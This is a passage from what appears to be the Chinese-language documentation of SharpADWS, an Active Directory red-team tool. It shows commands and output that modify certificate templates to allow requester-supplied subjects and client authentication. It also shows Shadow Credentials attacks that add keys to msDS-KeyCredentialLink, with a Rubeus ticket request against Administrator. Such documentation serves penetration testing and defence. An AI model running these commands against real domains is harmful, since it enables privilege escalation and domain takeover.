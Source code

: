```cmd
         Enrollment Rights          :
                                    : Domain Admins
                                    : Domain Users
                                    : Enterprise Admins
         Object Control Permissions :
             WriteDacl              :
                                    : Domain Admins
                                    : Enterprise Admins
             WriteOwner             :
                                    : Domain Admins
                                    : Enterprise Admins
             WriteProperty          :
                                    : Domain Admins
                                    : Enterprise Admins
                                    : Marcus
                                    : Domain Users
                                    
# ...
```
**需要注意的是，Certify Method 的 `find` 必须依赖于已经通过 Cache Method 建立的映射缓存。**

Certify method 的 `modify` 允许您在拥有对目标模版的写入权限下，修改证书模版的属性，例如开启 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 标志或启用 Client Authentication：

```cmd
C:\Users\Marcus>SharpADWS.exe Certify -action modify -template User -enrolleeSuppliesSubject -clientAuth

[*] Enable enrollee supplies subject for template User successfully!
[*] Enable client authentication for template User successfully!

```

### Whisker

Whisker method 能够像 [Whisker](https://github.com/eladshamir/Whisker) 一样执行 ShadowCredentials 攻击的生命周期。

Whisker method 的 `list` 能够列出目标账户对象的 `msDS-KeyCredentialLink` 属性值：

```cmd
C:\Users\Marcus>SharpADWS.exe Whisker -action list -target DC01$

[*] List deviced for DC01$:
[*]     DeviceID: c9fdae6b-f6a1-4880-a498-6dc89814e596    Creation Time: 2/13/2024 7:43:49 PM
[*]     DeviceID: ee48b31f-71b1-4821-b21e-1ca28fad2ae9    Creation Time: 2/13/2024 8:06:52 PM
[*]     DeviceID: 80c31faf-8b0b-4af6-8350-22de2d91a4fd    Creation Time: 2/13/2024 8:01:50 PM

```

Whisker method 的 `add` 允许您在拥有写入权限的情况下，为目标账户的 `msDS-KeyCredentialLink` 属性添加一个 Key，以执行 ShadowCredentials 攻击：

```cmd
C:\Users\Marcus>SharpADWS.exe Whisker -action add -target Administrator -cert-pass Passw0rd

[*] Certificate generaged
[*] KeyCredential generated with DeviceID 7d9e0151-5fd2-46d5-ac3d-dce8a71399f2
[*] Updated the msDS-KeyCredentialLink attribute successfully!
[*] You can now run Rubeus with the following syntax:

      Rubeus.exe asktgt /user:Administrator /certificate:MIIJzwIBAzCCCYsGCSqGSIb3DQEHA
      aCCCXwEggl4MIIJdDCCBiUGCSqGSIb3DQEHAaCCBhYEggYSMIIGDjCCBgoGCyqGSIb3DQEMCgECoIIE/
      jCCBPowHAYKKoZIhvcNAQwBAzAOBAjQKx9W/RRiIgICB9AEggTYyQ1jkAw63J4ldeBGctrUhGFPLkIll
      NNTizR2Ah/RW+QS2PjWVqv1N2AgybObllM3qVD2xxVxTQpSNvFsHTmZMCVFg++uknPBA7nVriX2rcTPJ
      bB/K0DANikCdSDXq1ROgIMRx3mpHtCX2Med82O0OJKOhk+S/Zt3K3r3BloSXRJI0YWUitlP3LPFG9DeG
      p1Pox/BL+83NmL9x1hX8ztTPixUlLteNUA5etJzdH0z+yFbqozH7HE1HClYFTanhS0codWpc19QjamWj
      DpmOMthgQlf6V+4kiG9PVyCHB7vzFbEnUcprLIRmlPKZKTEp2swfSKj+TeknccuHePIAtASJav286POp
```